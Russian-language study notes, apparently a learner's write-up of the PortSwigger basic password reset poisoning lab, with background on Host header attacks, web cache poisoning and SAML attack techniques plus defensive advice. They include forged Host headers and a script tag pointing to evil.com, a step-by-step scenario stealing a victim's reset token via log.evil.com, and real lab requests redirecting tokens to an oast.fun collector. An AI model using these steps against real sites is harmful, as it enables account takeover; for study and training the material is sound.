





сперва - доп теория
# Password reset poisoning
Отравление сброса пароля - это метод, при котором злоумышленник манипулирует уязвимым веб-сайтом, чтобы создать ссылку для сброса пароля, указывающую на домен, находя под его контролем.
Так можно украсть токен для смены пароля!

само решение лабы начинается НИЖЕ, примерно на 250 строчке

-------
####   Сброс пароля и отравление веб-кэша https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html

------
* если, делать запросы на восстановление своего пароля и анализировать состав ссылки на сброс пароля!  если ссылка меняется путем изменений параметров которые мы меняем в заголовках, - то это верный признак что можно изменять ссылку сброса, и хакер может подобрать такие параметры чтобы подставить туда свой хост на который прийдет создержание ссылки при переходе по ней!  даже можно было добавлять в заголовки свои доп адресса email на которые тоже приходила такая же ссылка сброса пароля! дублировалась! 

---------------------------------------------------------------------
1. **Мы экспериментируем с запросом**: меняете заголовки (в первую очередь `Host` и `X-Forwarded-Host`), добавляете или убираете параметры.
    
2. **Мы анализируем ссылку** в полученном письме.
    
    - **Если ссылка меняется** в зависимости от наших манипуляций с заголовками (например, в ней появляется `evil.com` вместо оригинального домена) — это **критическая уязвимость**! Приложение доверяет входящим заголовкам.

---------
### ⭐️ Суть атаки

Заголовок `Host` в HTTP-запросе сообщает серверу, к какому домену обращается клиент. **Многие веб-приложения слепо доверяют** этому заголовку, чтобы динамически генерировать ссылки или подключать ресурсы (скрипты, CSS) в своих страницах. **Это доверие создаёт уязвимость**. Атакующий может подменить `Host`, чтобы:

 **"Отравить" (подменить)** ключевой контент (например, ссылки для сброса пароля или JavaScript-файлы).
   
**Заставить сервер отправить** эту подменённую информацию другому пользователю.

**Продвинутый трюк из статьи**: Серверы по-разному обрабатывают _несколько_ заголовков `Host`. Например, Varnish для идентификации запроса использует _первый_ заголовок, а Nginx передаёт приложению _последний_. Отправляя два заголовка (`Host: example.com` и `Host: evil.com`), можно отравить кеш Varnish для `example.com`, но заставить приложение использовать `evil.com`для генерации содержимого.

-------

#### 1. Отравление сброса пароля (Password Reset Poisoning)

**Как работает**:

1. Атакующий заходит на сайт и нажимает "Забыли пароль".
    
2. В запросе он подставляет поддельный заголовок `Host: evil.com`.
    
3. Уязвимое приложение использует это значение для создания ссылки сброса (например, `https://evil.com/reset?token=секрет`) и отправляет её на email реального пользователя.
    
4. Если пользователь перейдёт по ссылке, токен попадёт на сервер злоумышленника (`evil.com`), который может использовать его для смены пароля жертвы.
    

**Пример из статьи**: В уязвимых версиях Gallery, Django, Joomla ссылка для сброса пароля генерировалась как `http://${Host}/reset?key=...`, что позволяло подставить любой домен.

#### 2. Отравление веб-кэша (Web-Cache Poisoning)

**Как работает**:

1. Веб-кеш (например, Varnish) сохраняет копии страниц для ускорения работы.
    
2. Атакующий отправляет запрос с поддельным `Host`, чтобы сгенерировать вредоносную страницу (например, со зловредным скриптом `<script src="http://evil.com/script.js">`).
    
3. Если удаётся обмануть конфигурацию кеша, эта страница сохраняется и затем показывается другим пользователям.
-------

### ❓ Почему сервер "слушается" заголовков

Это вопрос **архитектуры и удобства**:

1. **Виртуальный хостинг**: На одном IP-адресе может работать множество сайтов. Заголовок `Host` — это **единственный способ** для сервера понять, какой именно сайт запрашивает клиент.
    
2. **Динамическое содержимое**: Приложениям часто нужно знать свой публичный адрес, чтобы правильно сформировать абсолютные ссылки (для писем, RSS, карт сайта). Самый простой способ — взять его из входящего запроса (`Host`).
    

> ⚠️ **Ключевая проблема**: Разработчики часто используют значение `Host` напрямую, **без проверки**, что оно принадлежит их законному домену. Они ошибочно считают, что этот заголовок устанавливает только браузер пользователя.

----

🟢🟢🟢**Как защитить приложение** (главные советы из статьи):

1. **Не использовать `Host` для генерации чувствительных ссылок** (сброс пароля, ссылки с секретными токенами). Вместо этого хранить домен в настройках приложения.
    
2. **Валидировать заголовок `Host`** — проверять, что он соответствует ожидаемым доменам (белый список).
    
3. **Использовать SERVER_NAME**, а не HTTP_HOST (но и это не панацея, как объясняет статья).
    
4. **Настроить веб-сервер** (Apache/Nginx) так, чтобы запросы с непредусмотренными `Host` не попадали к приложению, а перенаправлялись на заглушку.
5. 
**Никогда не используйте для построения абсолютных URL данные, которые контролирует пользователь (заголовки `Host`, `X-Forwarded-*`). Всегда используйте белый список разрешённых доменов или жёстко заданное значение из конфигурации приложения.**

-------

⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️
###  Как хакер использует эту уязвимость: пошаговый сценарий

Представим, что  нашли уязвимый сайт `target.com`.  Цель — аккаунт пользователя `carlos`.

1. **Разведка**: Я, как `wiener`, меняете `Host` в запросе на сброс пароля и вижу, что ссылка в письме подменяется. Уязвимость подтверждена.
    
2. **Подготовка ловушки**:  Поднимам сервер, который логирует все обращения (как моя Cloud Function или Burp Collaborator). Его адрес — `log.evil.com`.
    
3. **Атака**: Отправляем запрос на сброс пароля для `carlos`, подставив `Host: log.evil.com`(или `X-Forwarded-Host`).
    
4. **Ожидание**: Сервер `target.com` генерирует ссылку `https://log.evil.com/reset?token=SECRET_OF_CARLOS` и отправляет письмо с ней на настоящий email Карлоса.
    
5. **Срабатывание ловушки**: Карлос видит письмо "от сайта", кликает по ссылке. Его браузер идёт на `log.evil.com`, передавая в URL токен. Мой сервер фиксирует в логах:  
    `GET /reset?token=SECRET_OF_CARLOS`.
    
6. **Захват аккаунта**: Берём этот токен, подставляете в _настоящую_ форму сброса пароля на `target.com` и устанавливаем новый пароль для аккаунта `carlos`.
⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️⭕️
------------


# статья https://portswigger.net/research/the-fragile-lock

**SAML (Security Assertion Markup Language)** — это открытый стандарт для **обмена данными аутентификации и авторизации** между разными системами.

Проще говоря, SAML — это "паспортная система" для веб-приложений. Он позволяет вам войти один раз в одной системе (например, в корпоративном портале) и автоматически получить доступ ко многим другим приложениям (почта, CRM, облачные сервисы) без повторного ввода логина и пароля. Этот процесс называется **Single Sign-On (SSO)** — единый вход.

### 🔑 Ключевые роли в процессе SAML

- **Пользователь (User)**: Тот, кто хочет получить доступ к приложению.
    
- **Поставщик удостоверений (Identity Provider, IdP)**: Система, которая хранит ваши учётные данные и "удостоверяет" вашу личность. Это центральный сервер аутентификации (например, Microsoft Entra ID (ранее Azure AD), Okta, корпоративный Active Directory).
    
- **Поставщик услуг (Service Provider, SP)**: Приложение или сервис, к которому вы хотите получить доступ (например, Salesforce, Workday, Confluence).
    

### 📄 Что такое "SAML-документ" (SAML Assertion)?

Это **основной "паспорт" или "виза"**, который IdP выдает пользователю для предъявления SP. Это XML-документ, содержащий криптографически подписанные утверждения о пользователе.

**Типичное содержимое SAML Assertion:**

- **Кто пользователь?** (Идентификатор, например, `username@company.com`)
    
- **Как был аутентифицирован?** (Пароль, MFA, сертификат)
    
- **Время выдачи** и **срок действия** "паспорта".
    
- **Дополнительные атрибуты** (роль, отдел, email) для авторизации в приложении.
    

### 🔄 Как работает поток SAML (шаг за шагом)

Вот классический сценарий — **"IdP-инициированный вход"**:

1. **Начало**: Вы заходите на портал своей компании (IdP) и вводите логин/пароль.
    
2. **Запрос доступа**: Вы кликаете на иконку приложения (например, Salesforce). IdP создаёт для вас **SAML Assertion** (подписанный XML-документ с вашими данными).
    
3. **Передача "паспорта"**: Ваш браузер перенаправляется в Salesforce (SP) с этим SAML-документом в параметре запроса.
    
4. **Проверка**: Salesforce получает документ, проверяет **цифровую подпись** IdP (уверен, что паспорт настоящий, а не поддельный), извлекает ваше имя и атрибуты.
    
5. **Доступ предоставлен**: Salesforce создаёт для вас локальную сессию и автоматически впускает в ваш аккаунт. **Вы не вводили пароль от Salesforce!**
    

### 🎯 Зачем это нужно? Преимущества SAML

- **Единый вход (SSO)**: Один пароль для многих сервисов.
    
- **Централизованное управление**: Админ может отозвать доступ ко всем приложениям сразу, заблокировав учётку в IdP.
    
- **Повышенная безопасность**: Пароли не передаются в каждое приложение. Можно включить строгую MFA (многофакторную аутентификацию) в одном месте (IdP) для доступа ко всем сервисам.
    
- **Стандартизация**: Единый протокол для интеграции множества разных приложений.
    

### ⚠️ Типовые уязвимости и атаки на SAML

Так как SAML критически важен для безопасности, он часто становится целью атак:

1. **Подделка утверждений (SAML Signature Bypass)**:
    
    - **Суть**: Если SP некорректно проверяет цифровую подпись IdP, атакующий может модифицировать SAML-документ (например, поменять имя пользователя на `admin`) и получить несанкционированный доступ.
        
    - **Классическая уязвимость**: Отсутствие проверки подписи или проверка только части документа.
        
2. **Перехват и повторное использование (Replay Attacks)**:
    
    - **Суть**: Если перехватить валидный SAML Assertion, его можно отправить SP повторно, чтобы выдать себя за пользователя.
        
    - **Защита**: Использование уникальных идентификаторов (`ID`) и проверка, не использовался ли уже этот "паспорт".
        
3. **XXE-инъекция (XML External Entity)**:
    
    - **Суть**: SAML — это XML. Если парсер SP неправильно настроен, вставка malicious XML-сущности может привести к чтению внутренних файлов сервера.
        
    - **Пример уязвимого параметра**: `<saml:Subject>` или любое текстовое поле, куда можно вставить XML.
        
4. **Атака на перенаправление**:
    
    - **Суть**: Манипуляция параметром `RelayState` или URL-адресом для перенаправления пользователя после аутентификации, чтобы отправить его на фишинговый сайт.
        

**Простой пример уязвимого SAML-ответа (упрощённо)**:
```xml
<saml2:Assertion ID="123" IssueInstant="2024-01-01T10:00:00Z" Version="2.0">
  <!-- Атакующий может подменить это имя -->
  <saml2:Subject><saml2:NameID>attacker</saml2:NameID></saml2:Subject>
  <!-- Если эта подпись не проверяется или проверяется с ошибкой... -->
  <ds:Signature>...подпись...</ds:Signature>
</saml2:Assertion>
```

### 🛡️ Как тестировать безопасность SAML (для пентестера)

1. **Перехват SAML-трафика**: Используйте Burp Suite/OWASP ZAP для перехвата POST-запроса, содержащего `SAMLResponse`.
    
2. **Декодируйте Assertion**: Параметр `SAMLResponse` передаётся в base64-кодировке. Декодируйте его (в Burp есть декодер) и изучите XML.
    
3. **Проверьте подпись**:
    
    - Убедитесь, что она присутствует (`<ds:Signature>`).
        
    - Попробуйте **удалить подпись** целиком или **изменить данные** в утверждении (например, имя пользователя), оставив исходную подпись. Если SP принимает такой документ — критическая уязвимость.
        
4. **Поиск XXE**: Попробуйте внедрить XML-сущности в текстовые поля Assertion.
    
5. **Проверка RelayState**: Проанализируйте параметр `RelayState` на возможность открытого перенаправления (Open Redirect).
    

> **SAML-документ (Assertion)** — это **цифровой аналог пропуска или визы**, который выдается центральным офисом (IdP) и предъявляется на проходной нужного приложения (SP). Его безопасность целиком зависит от корректной проверки **цифровой подписи** и обработки XML.


----

Вот на чём основаны новые методы атаки:

=Техника=Суть=Результат=

|**XML Signature Wrapping (XSW)**|
Классическая атака: внедрение поддельного утверждения (`Assertion`) в подписанный документ так, что проверка подписи проходит, но приложение обрабатывает поддельное утверждение.|
**Полный обход аутентификации**. Атакующий может выдать себя за любого пользователя.|


|**Загрязнение атрибутов (Attribute Pollution)**|
Использование особенностей библиотеки `libxml2`, которая **игнорирует пространства имён** при поиске атрибутов (например, `ID` и `samlp:ID`). Если у элемента есть два таких атрибута, разные парсеры (например, **REXML** и **Nokogiri**) могут выбрать для проверки подписи разные значения.|**Рассинхронизация** модуля проверки подписи и бизнес-логики. Проверка проходит для одного `ID`, а приложение обрабатывает утверждение с другим.|


|**Путаница с пространствами имён в REXML**|
Манипуляция зарезервированными атрибутами (например, `xmlns`и `xml:`) в парсере REXML. Это позволяет **скрыть или подменить элемент `Signature`** для одного парсера, в то время как другой парсер видит его корректно.|Проверка подписи применяется к неправильному элементу в документе, хотя формально документ остаётся валидным.|


|**Атаки через "точки расширения" схемы XML**|
Использование законных элементов SAML-схемы, таких как `<Extensions>` или `<StatusDetail>`, для размещения внутри них подложных структур с подписями.|
**Инъекция вредоносных элементов** без нарушения валидности XML-документа, что обходит схемную валидацию.|

--------


# -♻️----------лаба -----------♻️-
https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning
# Базовое отравление сброса пароля

сказано, что юзер карлос будет нажимать на все подряд 
ссылки, которые прийдут ему на почтовый ящик

-значит нужно будет отравить ссылку сброса пароля!
моя учетка = wiener:peter

----

вошел в ак, сбросил пароль, просмотрел все запросы/ответы
ничего подозрительного нет, на первый взгляд

логика такая , что когда мы нажимаем на сброс пароля - вводим ник - то на этот ник приходит ссылка с токеном сброса пароля, и потом в запросе по которому сбрасывается пароль - поставляется этот токен!

`[https://0a3f00ca032eb549820dab4b00820037.web-security-academy.net/forgot-password?temp-forgot-password-token=ruz0503msb1lbkcs56s77esfhlie6tg6]`


попробую менять заголовки чтобы определить что что есть возможность влиять на ссылку сброса!

особенность - csrf - живет не бесконечное время

перехватил запрос на изменение пароля для своего аккаунта!



добавил к хосту много букв ssssss......



и ссылка на сброс сформировалась так что туда видимо можно подставить любой сайт!

и у меня как раз есть моя облачная функция которая может быть использована для помены хоста   
`https://functions.yandexcloud.net/d4eehe74dgv6ukpc1q
`
------


это испорченный запрос смены пароля
```http
POST /forgot-password HTTP/2
Host: s0a3f00ca032eb549820dab4b00820037.web-security-academy.testsssssssssssssssssssssssssssssssssssssssssssssssssss
```

это ссылка пришла на почту
`https://s0a3f00ca032eb549820dab4b00820037.web-security-academy.testsssssssssssssssssssssssssssssssssssssssssssssssssss/forgot-password?temp-forgot-password-token=mnx4gf6yezpb28lq599uivzaaupiwhif`

-----

но чтобы использовать мою функцию нужно использовать мой домен, настроить шлюз+SSl сертификат, добавить в шлюз ссылку на мою облачную функцию, и тогда все запросы к домену будут перенаправляться в шлюз и от туда через сертификат передатсья в функцию уже которая логи выдаст!


но можно проще и быстрее!
# cайт https://app.interactsh.com

дал мне ссылку, она как раз такого же "формата" как и в оригинальной ссылке!


новая ссылка на смену ак
`https://0a46003e03a58cd980377b0c003c00d0.web-security-academy.net/forgot-password?temp-forgot-password-token=4o8kw63quf8ymx4pdfj4qs1ddk6j0zjn`

меняю на  мой сервер!
`https://0a46003e03a58cd980377b0c003c00d0.web-security-academy.net/forgot-password?temp-forgot-password-token=ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun`

ориг запрос
```http
POST /forgot-password HTTP/2
Host: 0a46003e03a58cd980377b0c003c00d0.web-security-academy.net
```

меняю на зараженный!
```http
POST /forgot-password HTTP/2
Host: ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun
```
отправляю сброс своего пароля и вижу что пришла ссылка на почтовый ящик с моей ссылкой!




такое жи письмо приходит если и мой сервер подставить 
functions.yandexcloud.net/d4eehe74dgv6ukpc88

вот подмена хоста




и вот как приходят ответы! c токеном!!!!



-----
# ВЫВОД

при сбросе пароля ссылка на сброс пароля формировалась через параметр Host в запросе
я поставил произвольный текст в поле host и обнаружил, что ссылка на сброс пароля пришла с этим произвольным текстом - это уже уязвимость!
 
я подставил в поле хост ссылку на мой сервер 
я также подставил ссылку на сервис interactsh.com 
 и когда я отправлял ссылку на смену моего аккаунта - то приходила ссылка на смену пароля которая вела уже на мой хост! и на моих хостах мне приходили токены!

потом я переделал запрос с отравленным Host жертве карлосу, и когда карлос нажал на ссылку - то я получил токены смены пароля!

я подменил токен смены пароля для карлоса и поменял пароль на свой!

==portSwigger блокирует чужие домены и "карлос" не нажимает на такие чужие ссылки, так что проверку работы перехвата возможно только через смену пароля своего аккаунта wiener^ а саму лабу можно решить через их подставной разрешенный хост==

